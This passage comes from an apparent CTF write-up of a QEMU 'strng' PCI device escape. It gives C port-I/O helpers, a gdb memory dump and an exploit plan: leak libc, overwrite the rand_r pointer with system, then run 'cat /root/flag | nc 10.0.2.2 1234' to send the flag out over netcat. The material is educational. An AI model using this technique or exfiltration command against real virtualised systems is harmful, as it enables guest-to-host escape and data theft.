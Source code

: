 {% highlight C %}
static __inline unsigned int
inl (unsigned short int __port)
{
  unsigned int _v;

  __asm__ __volatile__ ("inl %w1,%0":"=a" (_v):"Nd" (__port));
  return _v;
}

static __inline void
outl (unsigned int __value, unsigned short int __port)
{
  __asm__ __volatile__ ("outl %0,%w1": :"a" (__value), "Nd" (__port));
}
{% endhighlight %}

The trick here is that you have to give permission for your program to access the ports. For ports between `0x000-0x3ff` you can use `ioperm(from, num, turn_on)`. For higher ports you need to use `iopl(3)`, this will give your program access to all ports (man ioperm and man iopl). Your program needs to execute as root.

## Exploit

Now that we have everything laid out, I believe anybody can complete the exploit. But just for completeness here is a quick memory layout and the final script.

{% highlight text %}
gdb-peda$ x/40gx $rdi+0xaf0
0x555557e2c950: 0x0000000000000000      0x0000000000000000    # Emulated ports 0xc050-0xc057, MMIO
0x555557e2c960: 0x0000000000000000      0x0000000000000000    # Emulated MMIO 256 bytes
0x555557e2c970: 0x0000000000000000      0x0000000000000000    # from 0x555557e2c958
0x555557e2c980: 0x0000000000000000      0x0000000000000000    # to   0x555557e2ca58
0x555557e2c990: 0x0000000000000000      0x0000000000000000
0x555557e2c9a0: 0x0000000000000000      0x0000000000000000
0x555557e2c9b0: 0x0000000000000000      0x0000000000000000
0x555557e2c9c0: 0x0000000000000000      0x0000000000000000
0x555557e2c9d0: 0x0000000000000000      0x0000000000000000
0x555557e2c9e0: 0x0000000000000000      0x0000000000000000
0x555557e2c9f0: 0x0000000000000000      0x0000000000000000
0x555557e2ca00: 0x0000000000000000      0x0000000000000000
0x555557e2ca10: 0x0000000000000000      0x0000000000000000
0x555557e2ca20: 0x0000000000000000      0x0000000000000000
0x555557e2ca30: 0x0000000000000000      0x0000000000000000
0x555557e2ca40: 0x0000000000000000      0x0000000000000000
0x555557e2ca50: 0x0000000000000000      0x00007ffff65268d0    # srand()
0x555557e2ca60: 0x00007ffff6526f60      0x00007ffff6526f70    # rand(), rand_r()
{% endhighlight %}

The plan is to first leak libc by using `strng_pmio_read` and `strng_pmio_write`. `strng_pmio_write` can write the index to be read by the `strng_pmio_read` this way we can leak one of the 3 pointers stored in the emulated PCI Device address space. Then we are going to use the `strng_mmio_write` to store the command line we want to execute. And then we are going to overwrite the `rand_r` pointer with the address of `system@libc` because its called with the argument we control. And finally we are going to call the corrupted `rand_r` pointer. The command I chose is `cat /root/flag | nc 10.0.2.2 1234`.
